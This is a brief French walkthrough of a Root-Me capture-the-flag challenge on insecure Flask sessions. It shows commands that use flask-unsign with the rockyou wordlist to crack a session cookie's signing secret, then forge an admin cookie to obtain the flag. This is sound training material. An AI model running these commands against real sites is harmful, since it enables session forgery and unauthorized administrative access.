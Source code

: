 Le challenge https://www.root-me.org/fr/Challenges/Web-Serveur/Flask-Unsecure-session


Exploit sur flask 

D'abord quésako ? 

flask est un framework qui permet de faire des sites en python 

Le cookie par défaut est session 
grace à ça on peut décoder
https://www.kirsle.net/wizards/flask-session.cgi

Maintenant on va utiliser unsign 
pip3 install flask-unsign


On va brute force notre cookie 
 flask-unsign --wordlist rockyou.txt --unsign --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.aFxxNQ.I-ZNlMtcgkFW8taLeTn2WSxCMSg' --no-literal-eval

 On va trouver un mdp 

 On pourra générer notre propre cookie 
 flask-unsign --sign --cookie "{'admin':'true','username':'admin'}" --secret "b's3cr3t'"

 On remplace le cookie et pouf le flag 

